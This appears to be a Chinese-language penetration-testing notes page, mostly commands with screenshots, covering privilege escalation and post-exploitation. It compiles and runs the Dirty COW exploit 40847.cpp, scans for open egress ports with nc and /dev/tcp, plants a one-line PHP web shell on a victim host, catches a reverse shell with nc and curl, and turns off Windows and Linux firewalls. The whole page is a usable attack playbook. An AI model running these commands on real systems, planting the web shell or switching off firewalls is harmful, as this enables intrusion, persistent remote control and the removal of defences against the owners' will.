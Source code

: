     編譯40847.cpp檔案並執行
    g++ -Wall -pedantic -02 -std=c++11 -pthread -o dcow 40847.cpp -lutil
    ./dcow -s
![image](https://github.com/user-attachments/assets/e62583cf-12ec-448b-9f07-986a731878f3)
![image](https://github.com/user-attachments/assets/ff2627b9-e579-4a5d-9114-564d029dd380)

Egress Busting
---
    sudo tcpdump -ni eth0 tcp[13]==2 只擷取tcp包的SYN包
    nc -nz 192.168.0.18 1-10
    echo > /dev/tcp/192.168.0.18/200 發送封包
    for i in {1..1024};do (nc -zv 192.168.0.18 $i&);done
    利用這些方式尋找可以出去的連接埠
![image](https://github.com/user-attachments/assets/75e98ff4-99d2-41db-a7c5-afd50fbbf144)
![image](https://github.com/user-attachments/assets/5408a88b-1809-4dc7-b643-28173c81fb1a)

Persistent
---
    <?php system($_GET['cmd'])?> shell.php 在受害端塞入shell，透過攻擊端瀏覽器執行受害端的指令
![image](https://github.com/user-attachments/assets/718b8329-bbc6-4eda-909e-f2f4a419594c)
![image](https://github.com/user-attachments/assets/ab920de5-84ee-49ab-91af-49233a804632)

    在攻擊端用nc監聽，在使用curl將shell反彈回來
![image](https://github.com/user-attachments/assets/82a75e57-91e5-4d3d-b4a4-470d53e198b5)
![image](https://github.com/user-attachments/assets/b8e282e3-8d88-4a92-b1eb-65e7b0f39f57)

    因不是完整的tty console當按到ctrl+c就會退出session，因次設定full tty
https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/full-ttys

    windows關閉防火牆
    netsh firewall set opmode disable
    netsh advfirewall set allprofiles state off
![image](https://github.com/user-attachments/assets/24c54af8-c85c-4dc8-bb9f-fc4788915527)
    
    linux
    sudo iptables –S
    sudo iptables –P INPUT ACCEPT
    sudo iptables –P OUTPUT ACCEPT
![image](https://github.com/user-attachments/assets/d702fe62-de35-4222-8bbf-8c816e75d5ae)

Windows找檔案
---
    dir /s <FILE_NAME> 2> nul 
    findstr /n /i /s <KEYWORD> *.*

Linux找檔案
---
    find / -name <FILE_NAME> –ls 2> /dev/null
    grep –nir <KEYWORD> .

